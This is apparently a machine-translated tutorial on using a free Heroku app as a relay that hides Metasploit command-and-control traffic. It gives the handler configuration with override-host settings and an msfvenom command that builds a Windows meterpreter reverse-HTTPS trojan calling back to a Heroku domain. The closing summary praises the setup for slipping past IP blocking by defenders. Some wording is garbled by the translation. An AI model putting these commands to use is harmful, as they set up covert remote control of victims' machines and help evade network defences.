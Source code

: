 **First step** ### Heroku in Metasploit

Open msf
Add a handler to Metasploit, and configure it as shown:

! [img](https://p5.ssl.qhimg.com/t018cb0e768bd66bd21.png)

Use module payload/windows/x64/meterpreter_reverse_https
Set LHOST to the domain we are actually pointing to and LPORT to 8443, as configured in heroku.
Then set the three global parameters as follows:
setg OverrideLHOST nancicdn.herokuapp.com
setg OverrideLPORT 443
setg OverrideRequestHost true

OverrideLHOST is the address of our heroku, the main domain name is fixed, and the subdomain prefix is the app name we just configured in heroku. port is 443 because we configured the https protocol.
After the parameters are configured, enter to_handler to open the listener.

! [img](https://p0.ssl.qhimg.com/t0145ce2a457c0deeb4.png)

As you can see in the image above, listening on port 8443 has been enabled, i.e. the configuration is complete.

**Step 2**

Generate the Trojan horse with the command
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=nancicdn.herokuapp.com LPORT=443 -f exe -o payload.exe
Then transfer the generated mutex to the VM and execute it.

! [img](https://p0.ssl.qhimg.com/t0168b3c0274b952f93.png)

  **Executed and found successfully online at metasploit. **

You can see that the session link address is the heroku relay server address, and the IP of the connection is different for different heroku deployments.

  **The following figure shows this:
Target 1**

! [img](https://p4.ssl.qhimg.com/t019344d0aff6b38cac.png)

Target 2

! [img](https://p2.ssl.qhimg.com/t01baea8271871c8e13.png)

### Summary

The technical principle of heroku hidden C2 is very simple, use heroku service to deploy nginx reverse proxy service, payload connects to nginx of heroku, nginx will forward the traffic to C2.
The advantages are as follows.
Only need to register heroku free account can
No need to register or buy a domain name
comes with a trusted SSL certificate (heroku domain comes with its own certificate)
If the IP address is blocked, you can delete the original heroku app and redeploy heroku app (it takes about 30s), and keep fighting with the defenders.
Simple steps
